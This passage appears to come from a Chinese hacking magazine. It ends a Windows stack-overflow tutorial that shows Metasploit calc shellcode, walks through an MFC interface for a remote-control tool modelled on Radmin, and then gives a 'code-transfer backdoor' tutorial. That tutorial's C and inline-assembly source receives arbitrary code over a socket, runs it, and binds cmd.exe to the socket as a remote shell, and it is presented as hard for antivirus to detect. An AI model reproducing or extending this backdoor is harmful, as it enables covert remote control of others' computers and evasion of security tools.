- CMD: calc
- Max Size:
- Restricted Characters: \x00
- Selected Encoder: Default
- Format: C
```

# 图6 生成 shellcode

```text
Windows Execute Command

Execute an arbitrary command

This module (#5773) was provided by vlad902, under the Metasploit Framework License (BSD).

Size: 113
Architecture: x86
Operating system: Windows

PAYLOAD CODE (C)
unsigned char buf[] =
"\xdb\xc8\xb8\x96\x6b\x3b\x77\x2b\xc9\xb1\x1e\xd9\x74\x24\xf4"
"...";
```

# 图7 利用 16 进制编辑器转化 shellcode


# 图8 用 Raw 生成字符串的 shellcode

```text
Windows Execute Command

Execute an arbitrary command

This module (#5773) was provided by vlad902, under the Metasploit Framework License (BSD).

Size: 113
Architecture: x86
Operating system: Windows

PAYLOAD CODE (RAW)

Raw 字符串形式 shellcode（显示为乱码）
```

这样生成的 shellcode 便会是字符串，不过显示的时候是乱码，如图 8 所示。

### 射击

最关键的任务都已经完成了，射击算是小菜一碟了。把以上三者结合而成的字符串输入程序，便会运行 calc.exe，即计算器程序。没有成功吗？如果是，按照我讲的步骤进行了吗？如果又是，我也不怪你，这很正常，原因在于你的 Windows 操作系统可能是 Windows XP SP2 或者 Windows 2003，而这个实验只能在 Windows 2000 上进行。

从 Windows XP SP2 开始，Windows 在堆栈的管理方式中添加了一些堆栈校验的安全策略，具体内容这里先就不讲了。除此以外，各种编译器也增加了防溢出的默认优化选项。总之，随着 Windows 安全性的不断提高，Windows 溢出的难度也不断增大。相比而言，*nix 在溢出的防范方面，工作就做得不如 Windows，而且 *nix 的好多组件源码开放，因此相对而言，*nix 的漏洞发掘和利用在某些方面更容易。

### 总结

本文只涉及到了 Windows 环境下的栈溢出，而溢出的内容还有很多。Windows 环境下的溢出大体可以分为栈溢出和堆溢出，而堆溢出的难度更大。另外，*nix 下的溢出种类可细分出许多，并且由于条件限制，溢出中通常要对 shellcode 进行编码，本文并未涉及，这些大家有兴趣可以自己去查阅些资料，有利于理解。

溢出是渗透技术中历史最悠久、难度最大的技术之一，在溢出漏洞的发掘和利用中还会涉及到许多其它方面的知识，比如逆向和系统内部原理。谈溢出，忘了神，茶壶倒茶，杯中茶水溢。待我将溢出者擦净，还桌面一个清净，一个太平。

> （文章中所涉及的相关代码及工具都已经收录在本期光盘中）

> **编辑点评：** 看得出作者是十分的用心，以至于阐述茶水溢出，呵呵，各位看官还不快慰劳一下本文的作者啊！

## 远程控制软件编程之界面编写

从本文您可以学到：

- 了解 VC 的界面编程

远程控制软件的编写不仅仅是对连接字的编程，其界面设计也是非常重要的。是否拥有布局合理、交互方便、清爽整洁的界面，是判断远程控制软件性能优劣的一个重要指标。游鸿明的歌曲《白色恋人》中唱到“为了要遇见你，我连呼吸都反复练习”，描绘出了与女朋友见面前准备的画面。大家应该也有这样的体会，我们第一次与女朋友约会时，不但要在打扮上花功夫，就连说话、动作和表情都要反复练习。因为我们知道，第一印象非常重要，如果给对方留下的第一印象很好，那么我们这个约会就会成功大半。而远程控制软件留给用户的第一印象就是界面。接下来我们以远程控制软件“Radmin 影子版”的界面为例，讲解远程控制软件的界面编写过程。

Radmin 影子版中的 Radmin.exe 运行后的界面如图 1 所示。从图 1 中不难看出，Radmin.exe 程序的界面主要分为 4 部分。

# 图1 Radmin.exe 程序界面


### 一、标题的编程实现

#### 1、SDI 工程的新建

- 1. 在 VC 中新建一个名为 Radmin 的 MFC（exe）工程，接下来在“MFC Wizard-step1”对话框中“你喜爱创建的应用程序类型？”选项里选择“单个文档”。
- 2. 之后连续点三次“下一个”按键，在“MFC Wizard 4 of 6”对话框中点击“高级”按键，在跳出的“Advanced Options”对话框中的“Windows Style”选项卡中，选择“应用拆分窗口”选项，然后点击“关闭”。
- 3. 在图 1 中大家已经看到，Radmin 远程控制软件的客户区被分成了两个部分，因此，选择“应用拆分窗口”选项的作用是用于视图窗口分割的编程，用来实现远程控制软件中的客户区。最后，点击“完成”按钮，我们就新建了一个名为 Radmin 的工程了。

#### 2、标题图标的修改

我们新建的 SDI 程序标题的图标是 MFC 标准程序的图标，那么通过什么方法把这个 MFC 程序的图标改成图 1 所示第 1 部分中的 Radmin 程序的图标呢？

- 1. 首先，选择 VC 界面工作区中的“ResourcesView”选项卡，然后在工作区窗口中，选择“ICON”资源图标前的“+”号，展开“Icon”资源，其中的“IDR_MAINFRAME”即为程序标题的图标；
- 2. 接下来我们使用新的图标资源来代替该图标资源。因此，选中“IDR_MAINFRAME”，点击键盘的“Delete”键删除该图标资源。之后，右键选择“Icon”资源，在右键菜单中选择“Insert”，在跳出的“插入资源”对话框中点击右侧的“导入”按键，选择要导入的 Radmin 程序的图标；
- 3. 最后，右键选中新导入的图标资源，在右键菜单中选择“Properties”，在跳出的“Icon Properties”对话框中，将其 ID 修改为“IDR_MAINFRAME”。

通过以上步骤，我们完成了对程序窗口标题图标的修改。

#### 3、标题名称的修改

接下来我们讲解如何把程序中标题的名称修改为“Radmin Viewer”。

- 1. 选择 VC 界面工作区中的“FileView”选项卡，点击“Source File”项前面的“+”，展开“Source File”，双击其中的“MainFrm.cpp”文件。
- 2. 接下来我们对 CMainFrame 类的成员函数 PreCreateWindow 进行编写。程序框架在创建窗口前要调用 PreCreateWindow() 函数，那么我们可以通过修改 PreCreateWindow 函数的参数 CREATESTRUCT 来更改创建窗口的属性。而我们要更改应用程序窗口的标题名称，也可以通过 PreCreateWindow 函数来实现：

```cpp
cs.style &= ~FWS_ADDTOTITLE;
m_strTitle = "Radmin Viewer";
```

在上面的两行中，cs 是 CREATESTRUCT 类型的对象，是 PreCreateWindow 函数的参数，style 是 CREATESTRUCT 的成员变量，其含义是新窗口的风格。而我们通过 MFC 创建的 SDI 程序默认情况下都具有在窗口标题中自动添加标题名的功能，即为窗口自动添加“无标题”的功能。第 1 行源代码的功能是关闭程序自动添加标题名的功能，也就是去掉了标题名中“无标题”这三个字。

第 2 行中，m_strTitle 是 CFrameWnd 类的成员变量，其含义是程序窗口标题的名称，而 CMainFrame 是 CFrameWnd 类的派生类，因此，在 PreCreateWindow 函数中可以直接调用 m_strTitle。第 2 行源代码的作用是设置程序窗口标题的名称。

通过以上代码，我们完成了对程序窗口标题名称的修改。现在我们完成了图 1 中第 1 部分的编程，接下来我们对第 2 部分，也就是界面的菜单栏进行设置。

### 二、菜单栏的设置

因为本文只讲解远程控制软件界面的编程，而没有涉及到各控件的功能，因此菜单栏的设置比较简单。

- 1. 选择 VC 界面工作区的 ResourcesView 选项卡，点击“Menu”项前的“+”，展开菜单资源，双击“Menu”下的“IDR_MAINFRAME”选项，接下来根据图 1 对程序的菜单栏进行编辑。
- 2. 选择菜单栏中的“文件(&F)”，并在其右键菜单中选择“属性”，接下来在“Menu Item Properties”对话框中，将其标题修改为“连接选项(&C)”。
- 3. 然后修改“连接选项(&C)”中的菜单。左键单击“连接选项(&C)”，在跳出的菜单中选择第一项“新建(&N)”，然后在该项的右键菜单中选择“属性”，在“Menu Item Properties”对话框中将该项的“标题”修改为“连接到......(&T)”，最后将该项的“提示”修改为“建立连接”。

通过对“提示”栏的修改，在程序中，当我们鼠标位于菜单栏中的某项时，在程序左下角的状态栏中就会显示该项的作用，也就是我们在“提示”栏中添加的内容。菜单栏中的其它菜单均可按照以上步骤进行修改。

现在我们完成了界面中的第 2 部分，也就是菜单栏的设置，接下来学习工具栏的编程。

### 三、工具栏的编程

从图 1 中可以看到，Radmin 界面中的工具栏实际上就是将 MFC 程序工具栏中的标准图标用导入的图标来进行替代，因此，我们首先进行图标的导入。

#### 1、导入图标

导入图标的步骤与“标题图标修改”中导入 ICON 资源的步骤相同。从图 1 中我们看到，Radmin 界面的第 3 部分包括 15 个按键，因此，我们需要导入 15 个图标，图标的名称从 IDI_ICON1 排序到 IDI_ICON15（由于没找到与 Radmin 程序中相同的图标文件，在本程序中使用相似的图标代替）。

#### 2、将图标加入到图像列表中

选择 VC 界面工作区中的“FileView”选项卡，点击“Header Files”项前面的“+”展开该项，双击“MainFrm.h”头文件，为 CMainFrame 类添加一个 CImageList 类的对象，作为该类受保护的成员变量：

```cpp
CImageList m_ImageList;
```

#### 3、添加工具栏中的按钮

从图 1 中可以看到，Radmin.exe 程序的工具栏中有 15 个按钮，我们程序的工具栏默认按钮只有 8 个，因此要为我们的程序添加工具栏按钮。

- 1. 点击 VC 界面工作区的“ResourceView”选项卡，之后点击“ToolBar”项前面的“+”展开该项，然后双击“ToolBar”项中的“IDR_MAINFRAME”项，就打开了本程序使用的工具栏资源。
- 2. 然后用鼠标拖动工具栏末尾的空白工具栏按钮，放到新按钮的位置，使用以上方法把工具栏中的按键增加为 15 个。
- 3. 选择 VC 工具栏中的“查看”，在弹出的菜单中选择“建立类向导”，在“MFC Wizard”对话框中选择“Message Maps”选项卡，在“Class name”栏中选择下拉菜单中的“CMainFrame”类。接下来在“Object IDs”栏中可以看到形如“ID_BUTTONXXXXX”（其中 XXXXX 是 5 位数字）的 ID，这种类型的 ID 就是在工具栏中添加的按键的 ID。
- 4. 接下来我们为这些控件添加对 COMMAND 消息的响应函数，在“Object IDs”中选中一个工具栏按钮控件的 ID，之后在“Messages”栏中选中“COMMAND”，然后点击对话框右面的“Add Function”按钮。因为本文主要是对界面编程进行讲解，因此对消息响应函数的具体内容不做赘述。最后在“Add Member Function”对话框中点击“OK”键，完成对消息响应函数的添加。

通过以上步骤，我们为工具栏中的按键添加了消息响应函数，也就激活了该按键。接着就可以使用以上方法为添加的所有按键添加消息响应函数。

#### 4、图像列表与工具栏关联

要想在程序的工具栏按键中显示指定图像，还需要将图像列表与工具栏关联起来：

```cpp
m_wndToolBar.GetToolBarCtrl().SetImageList(&m_ImageList);
m_wndToolBar.GetToolBarCtrl().SetButtonSize(CSize(40,40));
m_wndToolBar.GetToolBarCtrl().SetBitmapSize(CSize(30,30));
```

以上代码的第 1 行是首先通过 m_wndToolBar 调用 CToolBar 类的成员函数 GetToolBarCtrl，该函数的作用是得到一个 CToolBarCtrl 类的引用，接下来调用 CToolBarCtrl 类的成员函数 SetImageList 将指定的图像列表与工具栏中按键关联起来。第 2 行使用相同的方法调用 CToolBarCtrl 类的成员函数 SetButtonSize 函数设置工具栏中按键的大小；第 3 行调用 CToolBarCtrl 类的成员函数 SetBitmapSize 设置图像的大小。

#### 5、设置按键说明

在 Radmin.exe 程序的界面中，当鼠标滑动到工具栏的某个按键上时，就会显示该按键功能的说明，如图 2 所示：


接下来以第一个按键为例，讲解如何加入按键说明。使用在“添加按键”中介绍的方法在资源中打开工具栏，双击工具栏中的第一个按键，在跳出的“Toolbar Buttons Properties”对话框中的“提示”栏中输入“\n建立连接”。

> 提示栏的作用是分别在界面的状态栏与工具栏中显示说明；而“提示”栏中输入提示说明的格式为“状态栏说明\n工具栏说明”。而在 Radmin.exe 程序中，没有显示按键的状态栏说明，因此“提示”栏中输入的“\n建立连接”表示只在工具栏中显示按键说明。

通过以上步骤，我们完成了图 1 中第 3 部分的编程，接下来我们学习界面中的第 4 部分——客户区的编程。

### 四、客户区编程

图 1 中程序的客户区被分为两个部分，因此我们程序客户区的编程主要是对 SDI 程序进行视图窗口分割。

这需要使用 CMainFrm 类的 OnCreateClient 函数对 SDI 程序进行视图窗口分割。使用上面讲到的方法打开 CMainFrm.cpp 文件，找到 OnCreateClient 函数的定义位置，首先将 OnCreateClient 函数中默认的源代码清除，之后输入如下源代码：

```cpp
if(!m_wndSplitter.CreateStatic(this, 1, 2))
{
    TRACE("Failed to Create m_wndSplitter");
    return false;
}
if(!m_wndSplitter.CreateView(0, 0, RUNTIME_CLASS(CRadminTreeView),
    CSize(0,0), pContext))
{
    TRACE("Failed to Create PeerHostTreeView!");
    return false;
}
if(!m_wndSplitter.CreateView(0, 1, RUNTIME_CLASS(CRadminView),
    CSize(0,0), pContext))
{
    TRACE("Failed to Create PeerHostTreeView!");
    return false;
}
```

其中，m_wndSplitter 是 CSplitterWnd 类的对象，该变量被定义为 CMainFrm 类受保护的成员变量（见 CMainFrm.h 头文件）。代码的第 1 行通过 m_wndSplitter 调用 CSplitterWnd 类的成员函数 CreateStatic 创建静态分割窗口。

静态分割窗口指的是当窗口第一次被创建时，窗格（pane）就已经被切分好了，它们不能再被改变。对应静态分割窗口的是动态分割窗口，允许用户在任何时候对窗口进行分割。

CreateStatic 函数的第一个参数表示要分割窗口的上一级框架窗口，this 表示本窗口；第二个参数表示将窗口分割的行数；第三个参数表示将窗口分割的列数。第 1 行代码表示将窗口分割成 1 行 2 列。1～5 行对 CreateStatic 函数的执行结果进行判断，如果分割窗口失败，则输出失败信息。

第 6 行通过 m_wndSplitter 调用 CSplitterWnd 类的成员函数 CreateView 为静态分割的窗口创建窗格（pane）。使用 CreateView 函数创建新的窗格，要求新创建的视图要与某个类相关联，因为本文只涉及到界面编程，因此我们在这里象征性地创建一个新类。

比如我们要创建一个 CTreeView 类的派生类 CRadminTreeView，其步骤是点击 VC 界面工具栏中的“插入”，然后在弹出菜单中选择“新建类”，之后在“New Class”对话框中的“Name”栏中输入类的名称“CRadminTreeView”，接下来在“Base class”栏的下拉菜单中选择 CTreeView 作为该类的基类，最后点击“OK”键。

CreateView 函数的第一个和第二个参数分别表示创建视图窗格的行数和列数，数值应从 0 开始；第三个参数表示创建的视图窗格相关联的运行时类；第四个参数表示新视图窗格的大小；第五个参数是指向 LPCREATESTRUCT 的指针，就是 OnCreateClient 函数的参数。6～11 行代码的作用是为第 1 行第 1 列的窗口创建了窗格。同理，12～17 行代码的作用是为第 1 行第 2 列的窗口创建了窗格。

接下来为创建的两个静态窗口设置大小：

```cpp
CRect r;
GetClientRect(&r);
int w1 = r.Width()*3/10;
int w2 = r.Width()*7/10;
m_wndSplitter.SetColumnInfo(0, w1, 0);
m_wndSplitter.SetColumnInfo(1, w2, 0);
m_wndSplitter.RecalcLayout();
```

第 1 行代码声明了一个 CRect 类的对象 r。第 2 行代码通过调用 GetClientRect 函数得到程序窗口客户区的坐标。第 3～4 行将窗口客户区的宽度分为两部分，一部分占总宽度的 3/10，另一部分占总宽度的 7/10。第 5～6 行通过 m_wndSplitter 调用了 CSplitterWnd 类的成员函数 SetColumnInfo 设置指定窗口的宽度，该函数的第一个参数表示窗口的列数，第二个参数表示窗口的理想宽度，第三个参数表示窗口的最小宽度。第 7 行代码通过 m_wndSplitter 调用了 CSplitterWnd 类的成员函数 RecalcLayout，显示重新设置宽度后的窗口。因为添加了 CTreeView 类，因此在 StdAfx.h 头文件中加入包含该类的代码：

```cpp
#include <Afxcview.h>
```

并且在 MainFrm.cpp 文件中添加声明 CRadminTreeView 类的头文件：

```cpp
#include "RadminTreeView.h"
```

通过以上步骤，我们完成了程序窗口客户区的编程。

### 五、启动时“欢迎窗体”编程

在 Radmin.exe 程序启动时，首先显示一个“欢迎窗体”，那么如何编程来实现显示“欢迎窗体”呢？

#### 1、“欢迎窗体”的创建

首先，将“欢迎窗体”的资源导入到程序资源中，导入的方法是：

- 1. 点击“Radmin Resources”项，在右键菜单中选择“Insert”，在跳出的“插入资源”对话框中将资源类型选择为“Bitmap”。
- 2. 之后点击对话框右侧的“导入”按钮，在“导入资源”对话框中的“资源类型（T）”栏的下拉菜单中选择“所有文件（*.*）”，选择“欢迎窗体”的路径后，点击对话框中的“Import”按钮，就把那个“欢迎窗体”资源导入到本程序的“Bitmap”资源中，其 ID 是 IDB_BITMAP1。
- 3. 然后在程序“Dialog”资源中添加一个新的对话框，并选择其右键菜单中的“属性”，在跳出的“Dialog Properties”对话框中，选择“Styles”选项卡，并在“Border”栏的下拉菜单中选择“None”，即去掉了该对话框的边框。
- 4. 之后，在“Control”工具栏中选择“Picture”控件加入到对话框中。接下来选中该“Picture”控件，在其右键菜单中选择“属性”，然后在跳出的“Picture Properties”对话框中，选择“General”选项卡，并在“类型”栏的下拉菜单中选择“Bitmap”，在“图像”栏的下拉菜单中选择刚刚导入的“欢迎窗体”的 ID——IDB_BITMAP1。
- 5. 之后，点击 VC 界面工具栏中的“查看”，在弹出菜单中选择“建立类向导”，接着在弹出的“Adding a Class”对话框中选择“Create a New Class”，即为刚刚创建的对话框建立一个新类。
- 6. 点击“OK”键之后，在接下来的“New Class”对话框中输入该对话框对应的类的名称——CBegin，最后点击“OK”键。

通过以上步骤，我们创建了一个对话框并为该对话框创建了对应的类。

#### 2、“欢迎窗体”的编程

首先为 CBegin 类添加两个消息响应函数。在“查看”->“建立类向导”中调出“MFC ClassWizard”对话框，在“Message Maps”选项卡中，将“Class name”中的类选择为 CBegin，在“Messages”栏中选择“WM_INITDIALOG”消息，点击对话框右侧的“Add Function”。

这样，我们就为 WM_INITDIALOG 消息添加了其消息响应函数“OnInitDialog”，也就是说，当程序接收到 WM_INITDIALOG 消息后，会调用 OnInitDialog 函数。使用相同的方法为“WM_TIMER”消息添加其响应函数“OnTimer”。

接下来在 CBegin.cpp 文件中，对添加的“欢迎窗体”进行编程。我们在 OnInitDialog 函数中添加如下代码：

```cpp
SetTimer(1, 2000, NULL);
```

SetTimer 函数的作用是创建一个定时器。SetTimer 函数的第一个参数表示定时器标识，在代码中我们可以理解为第 1 个定时器。第二个参数表示时间间隔，即是每隔多长时间触发一次，单位是毫秒，2000 表示时间间隔为 2 秒。第三个参数表示回调函数，我们用 NULL 表示。以上代码为 CBegin 类设置了一个定时器，每 2 秒触发一次。

接下来在 OnTimer 函数中，添加如下代码：

```cpp
KillTimer(1);
CDialog::OnCancel();
```

第 1 行中，KillTimer 函数取消了定时器，其参数表示要取消的定时器的标识，即取消第 1 个定时器。第 2 行中调用了 CDialog 类的成员函数 OnCancel，即取消该对话框。OnInitDialog 函数与 OnTimer 函数结合起来的作用就是产生一个对话框，并且该对话框框存在的时间为 2 秒钟。

“欢迎窗体”是在程序框架产生之前显示，因此，应该在程序框产生之前调用 CBegin 类，也就是在 Radmin.cpp 中调用该类。

#### 3、“欢迎窗体”类的调用

在 Radmin.cpp 文件中的 InitInstance 函数的起始位置上加入如下代码：

```cpp
CBegin dlg;
dlg.DoModal();
```

第 1 行定义了 CBegin 类的对象 dlg，第 2 行通过 dlg 调用 CDialog 类的成员函数 DoModal 来显示该对话框。第 1～2 行代码的作用是调用“欢迎窗体”的对话框。最后，在 Radmin.cpp 中引入“CBegin.h”头文件：

```cpp
#include "Begin.h"
```

通过以上步骤，我们完成了对 Radmin.exe 程序界面的模拟，来看一下模拟程序的界面，如图 3 所示。


学会了以上方法之后，我们也能够为自己的远程控制程序编写界面了，以上代码的编程环境为：Windows XP + VC 6.0。

（文中所涉及的相关代码及工具都已经收录在本期光盘中）

> 编辑点评：
> 手把手地教，相信认真阅读了本文的每一位朋友都应该会了吧？还不会？那就再拿起手边的 VC 来操作一次吧！

## 抛砖引玉——代码传输后门初探

从本文您可以学到：

- 1. 了解代码传输后门
- 2. 实现简单的代码传输 cmdshell

有好长时间没给“黑手”写稿了，这回给大家带来了有趣的东西——代码传输后门。前段时间听女王说他在折腾这玩意儿，貌似已经写了很多功能了，最近闲着，所以也来整整这玩意儿。

何为代码传输呢？一句话木马，这个大伙都知道吧（不知道可要打 PP 咯）？一句话木马就是把本地的脚本代码直接传输到服务器上执行，而代码传输后门也是同样的道理，就是通过客户端把相应的代码传输到服务端上执行，下面是对于代码传输后门的优点简介。

> 代码传输后门的优点是体积小，大部分功能代码都是动态传输的（我编译好的服务端只有 1.5KB），以后添加任何功能、体积都不愁增大。再者就是可扩展性强，当后门发布后，用户需要添加新的功能；可以自行编写代码。另外，其免杀性相对较好，因为后门原始代码很少，并且没有恶意代码，所以虚拟机扫描对它几乎无效。

说了这么多优点，当然它也有缺点，那就是编写这类后门有一定难度。不过看完本文，有基础的同学应该可以自行扩展后门了。前面粗略地讲了下代码传输的原理，接下来结合代码详细地解释下。

代码传输后门就是要把代码传输给服务端并且执行，这里所指的代码并不是我们所说的 C++、VB 等这些高级语言所写的代码本身，而是指形成汇编指令写的代码，并且编译完了之后从 EXE 文件中提取出来的相应的 16 进制（当然也可以直接提取），相当于是 ShowCode。

写过 ShowCode 的朋友应该知道为什么要用纯汇编写代码，因为其它语言写的代码提取之后，API 定位和数据定位都会出现问题。我们知道在 ShowCode 中调用 API 是相当麻烦的，首先需要定位 API，定位的过程也是相当繁琐，所以在本文中要做一下改进，构造一个类似导入表一样的数据结构，具体如图 1 所示。

首先是 CodeOffset，这是一个 DWORD 类型的数据，存放后面 Code 段的起始偏移。Code 段当然就是指代码了，也就是前面提到的要提取的 ShowCode。DllCount 也是一个 DWORD 类型的数据，用来存放用到的 DLL 的数量；FunAllCount 也是 4 字节的 DWORD 类型，存放所有 API 的数量；接下去就是 API_HEAD 结构了，每一个 DLL 对应一个 API_HEAD 结构。

API_HEAD 结构的定义如下：

```cpp
typedef struct _API_HEAD
{
    DWORD count;
    char dllName[20];
    API_NAME apiName[1];
} API_HEAD, *PAPI_HEAD;
```

count 指定此 DLL 中导入的函数个数，dllName 存放了该 DLL 名，API_NAME 其实就是一个 20 字节长的数组，用来存放相应的 API 函数名，这个结构的定义如下：

```cpp
typedef struct _API_NAME
{
    char FunName[20];
} API_NAME, PAPI_NAME;
```

明白了上面这个数据结构的定义，那么怎么来利用上面这个结构呢？

首先客户端构造好这段数据，发送给服务端；服务端根据 DllCount、FunAllCount、API_HEAD 这些数据，定位好所有要用到的 API 的地址，并保存在一段连续的内存中。每个函数的地址占 4 字节长度，这段内存地址重点命名为 apiBase，之后利用 CodeOffset 字段定位到 Code 段。

其实 Code 段就是个线程函数，然后把 socket 句柄和 apiBase 作为线程函数参数调用，并且用 CreateThread 函数启动线程函数 Code，那么在 Code 段的代码中就可以方便地使用这些 API 函数了，我们只需要知道某个 API 函数存放在 apiBase 的第几个字节。

socket 句柄和 apiBase 把它们存放在 THREAD_PARAM 结构中，传递给线程函数。THREAD_PARAM 结构定义如下：

```cpp
typedef struct _THREAD_PARAM
{
    PDWORD apiBase;
    SOCKET sClient;
} THREAD_PARAM, *PTHREAD_PARAM;
```

接着我们就来看一下得到要用的 API 函数地址，并保存在一段内存中的函数吧，代码如下：

| CodeOffset | DllCount | FunAllCount | API_HEAD | …… | Code |
|---|---|---|---|---|---|


```cpp
PVOID GetAddress(PVOID FunNameInfo)
{
    // 读取 dll 个数
    int dllCount=*(PDWORD*)FunNameInfo;
    // 读取总共函数个数
    int funAllCount=*(PDWORD*)((DWORD)FunNameInfo+4);
    // 计算要分配的内存大小，并分配内存
    PDWORD funBase=(PDWORD)malloc(funAllCount*4);
    if(funBase==NULL)
    {
        return funBase;
    }
    int k=0;
    int funCount;
    HMODULE hModule;
    // 定位到第一个 API_HEAD
    PAPI_HEAD pApiHead=(PAPI_HEAD)((DWORD)FunNameInfo+8);
    // 循环遍历每个 DLL
    for(int j=0;j<dllCount;j++)
    {
        // 得到 dll 中 api 个数
        funCount=pApiHead->count;
        // 装载 DLL
        hModule=LoadLibrary(pApiHead->dllName);
        if(hModule==NULL)
        {
            return NULL;
        }
        // 得到某个 DLL 中所有用到的 API 地址
        for(int i=0;i<funCount;i++)
        {
            // 保存 API 函数地址
            funBase[k]=(DWORD)GetProcAddress(hModule,pApiHead->apiName[i].FunName);
            k++;
        }
        // 定位到下一个 DLL
        pApiHead=(PAPI_HEAD)&(pApiHead->apiName[funCount]);
    }
    return funBase;
}
```

在这个函数中，FunNameInfo 参数是指向 DllCount 起始位置的指针。

接下去就只剩下构造和调用 Code 段代码了。在学习 Code 段之前，我们先来搞定前面这几个数据段的构造。从前面的介绍大家可能会感觉到这些数据还是有一定复杂度的，所以用 winhex 等编辑工具来构造的确是一件非常麻烦的事情。

我写了一个工具来构造这段数据，其界面如图 2 所示。


在添加完了 DLL 和 API 函数之后点击“生成”，就会在程序目录下生成一个名为“api.dat”的文件，里面保存了构造好的信息。

当得到了函数地址之后该执行 Code 段代码了，来了解下 Code 段代码是怎么被执行的吧，代码如下：

```cpp
typedef DWORD (_stdcall* THREAD)(LPVOID lParam);
DWORD WINAPI CmdThread(LPVOID lParam)
{
    SOCKET sClient=*(SOCKET*)lParam;
    DWORD memSize;
    PVOID buff;
    PDWORD apiBase;
    DWORD CodeOffset;
    int ret;

    // 得到传输过来数据的大小
    ret=recv(sClient,(char*)&memSize,4,0);
    if(ret>0)
    {
        // 申请相应的内存大小
        buff=malloc(memSize);
        // 接受数据
        ret=recv(sClient,(char*)buff,memSize,0);
        if(ret>0)
        {
            // 读取 Code 段的偏移
            CodeOffset=*(DWORD*)buff;
            // 得到 api 函数地址
            apiBase=(PDWORD)GetAddress((PVOID)((DWORD)buff+4));
        }
        PTHREAD_PARAM pThreadParam=(PTHREAD_PARAM)malloc(sizeof(THREAD_PARAM));
        pThreadParam->apiBase=apiBase;
        pThreadParam->sClient=sClient;
        // 定位到 Code 段
        THREAD cmdshelThread=(THREAD)((DWORD)buff+CodeOffset);
        // 创建线程
        HANDLE hThread=CreateThread(NULL,0,cmdshelThread,pThreadParam,0,NULL);
        WaitForSingleObject(hThread,INFINITE);
        free(buff);
        free(apiBase);
    }
    return 0;
}
```

完成了以上工作后，我们的后门也就完成一半了，接下去开始写 Code 段代码。前面已经说过了，这段代码要用汇编来写，并且它是一个线程函数。我们知道线程函数的定义一般如下：

```cpp
DWORD WINAPI Thread(LPVOID lParam)
```

也就是说，这个函数是一个 stdcall 类型的函数，stdcall 类型函数主要体现在两个方面。首先参数是从右向左入栈。比如有如下定义的一个函数：Add(int a, int b)，那么在调用函数前要先把 b 参数压栈，再把 a 参数压栈。API 函数基本上都是这种入栈方式，那么函数执行到结束后，刚才压入的参数必须出栈。另外，还有一个特点，就是 stdcall 类型函数出栈要在函数内部完成。

了解了这个之后，我们还必须学会如何在函数的堆栈中找到压入堆栈的参数和如何在函数中使用局部变量。

下面假如某函数有两个参数，并且遵循 stdcall 调用规则，那么此函数的汇编代码大致如下：

```asm
push ebp         ; 保持原来的 ebp
mov ebp,esp      ; 设置新的 ebp 基线栈顶
mov eax,[ebp+0C] ; 取得参数 2
mov ebx,[ebp+08] ; 取得参数 1
sub esp,4        ; 为局部变量分配堆栈空间
; 其它代码
add esp,4        ; 释放占用的堆栈空间
pop ebp          ; 恢复 ebp
ret 8            ; 堆栈中的两个参数出栈
```

- 1. 假设在执行函数前堆栈指针的 esp 为 K。
- 2. 根据 stdcall 调用规则，先将参数 2 压栈，此时 esp 为 K-04h。
- 3. 再将参数 1 压栈，此时 esp 为 K-08h。
- 4. 参数进入堆栈结束后，程序执行 call 指令调用函数，call 指令会把函数返回地址压栈，此时 esp 为 K-0Ch。
- 5. 这时程序已经执行到函数中了，为了使用 ebp 来存取参数，先把原来的 ebp 压栈保存（push ebp），这时 esp 为 K-10h。
- 6. 接着 ebp 被赋成了 esp 的值（mov ebp, esp），这时 ebp 就是 K-10h，这样就可以利用 ebp 来寻找压入堆栈的参数了，[ebp+8] 就是参数 1，[ebp+c] 就是参数 2。
- 7. “sub esp,4” 在堆栈定义局部变量，那么要访问这个局部变量就可以用 [ebp-4]。在局部变量使用完毕之后调用“add esp,4”来释放变量占用的堆栈。
- 8. 最后调用“ret 8”指令来维持堆栈平衡，“ret 8”就相当于“ret；add esp,8”，使调用函数前压入堆栈的两个参数出栈。

有了上面这些基础也就差不多了，本文中我写的代码只实现了 cmdshell 功能，大家可以自己扩展。来看看实现 cmdshell 的线程函数的汇编代码吧。

```cpp
void __declspec(naked) CmdThread()
{
    __asm push ebp; // 保存 ebp
    __asm mov ebp, esp;
    __asm mov eax, [ebp+8]; // 取得参数
    __asm mov esi, [eax]; // 取得 THREAD_PARAM 结构的 apiBase;
    __asm sub esp, 4; // 申请局部变量用来保存 THREAD_PARAM 结构的 sClient

sClient:
    __asm mov eax, [eax+4];
    __asm mov [ebp-4], eax; // 保存 THREAD_PARAM 结构的 sClient
    __asm sub esp, 68; // 开辟 STARTUPINFO 变量空间
    __asm lea eax, [ebp-72]; // STARTUPINFO
    __asm push eax;
    __asm call [esi]; // 调用 GetStartupInfo 函数
    __asm lea eax, [ebp-72];
    // 设置 STARTUPINFO 结构
    __asm mov dword ptr [eax+44], 0x101;
    __asm mov word ptr [eax+48], 0;
    __asm mov ebx, [ebp-4];
    __asm mov [eax+56], ebx;
    __asm mov [eax+60], ebx;
    __asm mov [eax+64], ebx;
    __asm sub esp, 8;
    // 申请局部变量保存字符串 "cmd.exe"
    __asm lea eax, [ebp-80]; // cmdline
    __asm mov byte ptr [eax], 63h;
    __asm mov byte ptr [eax+1], 6Dh;
    __asm mov byte ptr [eax+2], 64h;
    __asm mov byte ptr [eax+3], 2Eh;
    __asm mov byte ptr [eax+4], 65h;
    __asm mov byte ptr [eax+5], 78h;
    __asm mov byte ptr [eax+6], 65h;
    __asm mov byte ptr [eax+7], 00h;
}
```

```cpp
// 为 PROCESS_INFORMATION 结构开辟空间
__asm sub esp, 16;
__asm lea ebx, [ebp-96];
__asm push ebx;
__asm lea eax, [ebp-72];
__asm push eax;
__asm push 0;
__asm push 0;
__asm push 0;
__asm push 1;
__asm push 0;
__asm push 0;
__asm lea eax, [ebp-80];
__asm push eax;
__asm push 0;
__asm call [esi+4]; // 调用 CreateProcessA 函数
__asm mov ecx, [ebx];
__asm push 0FFFFFFFFh;
__asm push ecx;
__asm call [esi+8]; // 调用 WaitForSingleObject 函数
__asm add esp, 96; // 释放局部变量空间
__asm pop ebp; // 恢复 ebp
__asm ret 4; // 参数出栈，返回
}
```

接着我们只要提取这段代码对应的 16 进制值，并且把前面构造的“api.dat”中的数据和这里的 ShowCode 连接在一起。为了方便，读者可以把上述源码复制到 ShowCode 工程相应的位置，编译生成 ShowCode.exe 程序，然后把刚才生成的“api.dat”复制到生成的 ShowCode.exe 所在目录。运行 ShowCode.exe，程序就会在“api.dat”文件末尾追加上 Code 段的数据。至于如何添加代码，在工程源码中有详细注释。

